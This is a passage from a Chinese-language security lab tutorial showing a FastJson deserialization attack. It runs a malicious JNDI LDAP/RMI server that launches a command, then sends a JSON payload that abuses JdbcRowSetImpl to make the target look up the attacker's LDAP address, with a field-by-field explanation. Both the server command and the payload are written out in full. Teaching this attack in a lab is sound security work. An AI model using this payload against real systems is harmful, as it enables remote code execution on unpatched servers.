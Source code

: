 
### 3、生成远程调用方法  
使用`JNDI-Injection-Exploit`工具启动恶意LDAP/RMI服务，指定要执行的命令（如打开计算器）：
```cmd
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "calc" -A 192.168.93.130
```

![image-20250813225342396](037安全开发.assets/image-20250813225342396.png)


### 4、提交JSON数据Payload  
构造包含`@type`字段的恶意JSON，指定`JdbcRowSetImpl`类，并注入工具生成的LDAP地址：
```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://192.168.93.130:1389/7etyok","autoCommit":true}
```
- `@type`：指定FastJson反序列化的目标类为`JdbcRowSetImpl`。
- `dataSourceName`：注入恶意LDAP地址，`JdbcRowSetImpl`在初始化时会调用`lookup()`方法解析该地址。
- `autoCommit`：触发`JdbcRowSetImpl`的`setAutoCommit()`方法，间接调用`lookup()`。

![image-20250813225440942](037安全开发.assets/image-20250813225440942.png)
